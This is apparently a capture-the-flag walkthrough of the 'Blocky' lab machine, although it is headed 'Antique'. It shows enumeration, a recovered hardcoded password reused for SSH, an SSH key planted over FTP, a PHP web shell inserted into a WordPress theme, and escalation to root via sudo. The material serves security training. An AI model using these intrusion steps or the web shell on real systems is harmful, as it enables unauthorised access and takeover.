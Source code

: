 # Antique
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Nmap scan report for 10.10.10.37
Host is up (0.058s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Given the initial scan, let's dig deeper into port 80.
let's enumerate directories and see if we discover something intresting.
```
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/server-status        (Status: 403) [Size: 299]
```
Now, here's a rabbit hole that we can easilly jump straight in.
As we can see there is a wordpress installed on this server, we can try to exploit wordpress but there are tons of exploit available to try. there is a much easyer way.
Before jump into the rabbit hole, as a practice, make sure to enumerate everything.
Anyway enumerating wordpress show a user "notch".
```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
we can check if this user is also available for ssh login.
To check this we can use the metasploit module ```scanner/ssh/ssh_enumusers``` and set the options as follows
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set username notch
username => notch
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.10.37:22 - SSH - Using malformed packet technique
[*] 10.10.10.37:22 - SSH - Starting scan
[+] 10.10.10.37:22 - SSH - User 'notch' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Now, let's go now to the /plugins directory.
Here we can find two .jar files hosted: "BlockyCore.jar" and "griefprevention-1.11.2-3.1.1.298.jar".
.jar file are nothing else but archives, to extract this archive we can use zip command.
when we extract archives we can se .class file.
To decompile class files we can use ```jad``` (or ```jd-gui``` with the UI) and here we get the .jad file with the code in a readable format
## User
### Method 1 - Class File Decompile and Password Reuse
Using jad, we can decompile ```BlockyCore.class``` and get the .jad file by simply running:
```
jad BlockyCore.class
```
as we can see, after opening the jad file we can se the following lines:
```
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
Now we can try to login as root/notch to the machine and see if we do get any luck.
```
[root@kali Blocky ]$ ssh $TARGET -l notch
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$
```
Now we got user.

### Method 2 - Wordpress Theme Exploitation and Password Seek in Configuration Files
Let's suppose now that, for some reason this credential does not work with the ssh service and we can somehow exploit the ftp service.
Now we can try to login to ftp, create a .ssh/ directory and upload our public key into .ssh/authorized_keys and login using our certificate.
In order to do this we can establish the followig ftp session:
```
[root@kali Blocky ]$ ftp $TARGET
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:root): notch                  
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa.pub
226 Transfer complete
563 bytes sent in 0.00 secs (11.9315 MB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```
now we can login into ssh.
As a general rule, in penetration testing, code that connects to database contains connection parameter and in this parameter set we will most likely have credentials.
so lets navigate to /var/www/html and grep for the keyword "pass"
```
/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
notch@Blocky:/var/www/html$ cat wp-config.php | grep DB_USER
define('DB_USER', 'wordpress');
```
As we can see we found the password for user wordpress.
Let's dig deeper and see if we can get credentials for phpmyadmin.
Finding credentials for mysql is quite important at this stage, because, if we do find credentials for root user, we can login to mysql cli and drop a shell as root using mysql as privilege escalation vector.
Now let's navigate to ```/etc/phpmyadmin/```.
We do not have permission for ```config-db.php``` file as it is owned by www-data. So, let's try to get a shell as user www-data.
Now that we have user wordpress creds for the database, let's login to phpmyadmin using user wordpress and the disclosed password.
Now we can navigate to wordpress database, find the ```wp_users``` table and create a new hash for user notch replacing the old one.
Now we can login in wordpress using the user notch and the password used to generate the hash.
Once we are logged in wordpress we can easilly obtain a shell by editing the theme files.
If, for example, we go to Appearance > Editor > Theme Header, we can insert there a simple payload like : ```<?php system($_REQUEST['cmd']) ?>``` and obtain remote code execution and drop a shell as well.
Once we are logged in as www-data we can read ```config-db.php```.
As expected the file discloses credentials:
```
www-data@Blocky:/var/www/html$ cat /etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='8YsqfCTnvxAUeduzjNSXe22';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='';
$dbtype='mysql';
```
Now using this credentials we can try to escalate to another user and as we can see we can successfully escalate to "notch"
```
www-data@Blocky:/var/www/html$ su - notch
Password:
notch@Blocky:/var/www/html$
```

## Root
Now that we got user, first thing first let's check if we do have any sudo capability on this box:
```
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

```
Sudo asks for password, but as we are logged in using a password, we can provide the password and retrive sudo capabilities list.
Given the sudo permission, we can easilly escalate to root by simply doing:
```
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# 
```
